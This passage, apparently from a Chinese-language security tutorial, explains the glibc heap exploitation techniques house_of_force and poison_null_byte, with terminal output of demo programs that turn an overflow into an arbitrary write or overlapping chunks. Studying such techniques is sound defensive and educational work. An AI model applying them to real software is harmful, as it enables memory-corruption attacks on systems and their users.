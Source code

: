 编译，运行，得到结果：
\begin{verbatim}
$ gcc -g house_of_force.c
$ ./a.out 
We will overwrite a variable at 0x601080

Let's allocate the first chunk of 0x10 bytes: 0x824010.
Real size of our allocated chunk is 0x18.

Overwriting the top chunk size with a big value so the malloc will never call mmap.
Old size of top chunk: 0x20fe1
New size of top chunk: 0xffffffffffffffff

The value we want to write to at 0x601080, and the top chunk is at 0x824028, so accounting for the header size, we will malloc 0xffffffffffddd048 bytes.
As expected, the new pointer is at the same place as the old top chunk: 0x824030
malloc(0x30) => 0x601080!

Now, the next chunk we overwrite will point at our target buffer, so we can overwrite the value.
old string: This is a string that we want to overwrite.
new string: YEAH!!!
\end{verbatim}

\verb+ house_of_force+是一种通过改写\verb+ top chunk+的\verb+ size+字段来欺骗堆分配器的返回任意地址的技术。我们知道在空闲内存的最高处，必然存在一块空闲的\verb+ chunk+，即\verb+ top chunk+，当\verb+ bins+和\verb+ fast bins+ 都不能满足分配需要的时候，\verb+ malloc+会从\verb+ top chunk+中分出一块内存给用户。所以\verb+ top chunk+的大小会随着分配和回收不停地变化。

这种攻击假设有一个溢出漏洞，可以改写\verb+ top chunk+的头部，然后将其改为一个非常大的值，以确保所有的\verb+ malloc+将使用\verb+ top chunk+ 分配，而不会调用\verb+ mmap+。这时如果攻击者\verb+ malloc+一个很大的数目（负有符号整数），\verb+ top chunk+ 的位置加上这个大数，造成整数溢出，结果是\verb+ top chunk+ 能够被转移到堆之前的内存地址（如程序的 .bss 段、.data 段、GOT 表等），下次再执行\verb+ malloc+ 时，攻击者就能够控制转移之后地址处的内存。

\subsection{poison\_null\_byte}

编译，并运行得到结果：
\begin{verbatim}
$ gcc -g poison_null_byte.c 
$ ./a.out 
We allocate 0x10 bytes for 'a': 0xabb010
'real' size of 'a': 0x18
b: 0xabb030
c: 0xabb140
b.size: 0x111 ((0x100 + 0x10) | prev_in_use)

After free(b), c.prev_size: 0x110
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100

Pass the check: chunksize(P) == 0x100 == 0x100 == prev_size (next_chunk(P))
We malloc 'b1': 0xabb030
c.prev_size: 0x110
fake c.prev_size: 0x70

We malloc 'b2', our 'victim' chunk: 0xabb0c0
Now we free 'b1' and 'c', this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').
Finally, we allocate 'd', overlapping 'b2': 0xabb030

b2 content:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
New b2 content:BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
\end{verbatim}

